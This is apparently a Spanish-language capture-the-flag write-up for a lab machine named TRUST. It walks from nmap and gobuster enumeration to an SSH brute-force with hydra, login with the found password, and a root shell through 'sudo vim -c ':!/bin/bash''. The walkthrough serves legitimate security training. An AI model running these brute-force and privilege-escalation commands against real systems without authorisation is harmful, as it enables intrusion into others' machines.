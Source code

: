 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina TRUST

Fecha: 08 de Marzo de 2025

Objetivo: 172.18.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta.

```
ping 172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Respuesta al comando ping</p></figcaption></figure>

Lanzamos el comando NMAP, con los parámetros -sV y -O.

```
nmap -sV 172.18.0.2 -O
```

Acabamos de averiguar que la máquina objetivo dispone de los puertos 80 y 22 abiertos, y funcionando actualmente.&#x20;

* 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)&#x20;
* 80/tcp open http Apache httpd 2.4.57 ((Debian))

Vamos a visitar la web, para ver que nos arroja el puerto 80.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Captura de pantalla de la salida de Apache al instalar un nuevo servidor</p></figcaption></figure>

Vemos que nos retorna la página de configuración del servidor Apache Web Service. Vamos a probar con los ficheros robots.txt y sitemap.xml para ver si contienen información.

No existen los ficheros robots.txt, ni el sitemap.xml.

Vamos a ver que nos reporta _**Wappalyzzer**_ y podemos ver que nos dice que se trata de un servidor Linux, con un _**"Apache HTTP Service"**_ y una distribución **Debian**.

Probamos con el comando _**whatweb**_ con el parámetro -v y nos reporta lo siguiente.

```
whatweb 172.18.0.2 -v
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>Ssalida del whatweb -v</p></figcaption></figure>

Hice un _**dirb**_ para hallar directorios ocultos y me encontré con el siguiente output del comando.

```
dirb http://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Salida del comando dirb</p></figcaption></figure>

He encontrado una zona llamada _**server-status**_, pero al intentar navegar y acceder a esa parte me aparece lo siguiente.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Al intentar navegar me dice que tengo el acceso prohíbido.

Vamos a hacer un poco de Fuzzing. El Fuzzing consiste en una metodología en la que enviaremos datos aleatorios o modificados a una aplicación web con el objetivo de provocar errores o descubrir vulnerabilidades.

Primero buscaremos los directorios afectados.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -t 30 -o results.txt

```

El comando nos reporta esta salida

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Salida del comando gobuster haciendo fuzzing</p></figcaption></figure>

Ahora que ya hemos extraido los directorios, buscaremos en los ficheros.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 30 -o results_files.txt

```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Salida de los ficheros encontrados en la máquina objetivo</p></figcaption></figure>

Podemos ver que hay 3 ficheros en verde que nos devuelven un código 200.

Hemos visitado la web objetivo 172.18.0.2/secret.php y hemos encontrado esto.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

***

## Fase de Explotación

Lo único que se me ocurre es hacer fuerza bruta al puerto 22 (ssh) pero no se si existe otra solución.

Para ello solo conozco en estos momentos, [hydra](https://www.kali.org/tools/hydra/). Lanzaremos pues el comando para averiguar el password mediante hydra.

```
hydra -l mario -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Resultados del ataque al objetivo con Hydra</p></figcaption></figure>

Fase de Post-Explotación

Una vez obtenidas las credenciales del usuario. Podemos acceder a la máquina objetivo mediante SSH.

```
ssh mario@172.18.0.2
```

Introducimos la password encontrada anteriormente <mark style="color:blue;">**chocolate**</mark>, y estamos dentro.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Ahora deberíamos buscar los ficheros vulnarables que tenga comprometidos la máquina a nivel de sistema que el SUID sea del usuario root. Para ello lanzaremos el siguiente comando

```
find / -perm -4000 -user root 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vemos que la salida del comando nos retorna todos estos ficheros.

Probamos a ver si nos permite ejecutar algo como root.

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Output del sudo -l</p></figcaption></figure>

Vemos que podemos ejecutar sobre vim. Sino sabemos como explotarlo, siempre podemos consultar [GTFOBins ](https://gtfobins.github.io/)

```
sudo vim -c ':!/bin/bash'
```

Y si hacemos un whoami podemos ver que ya somos root.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
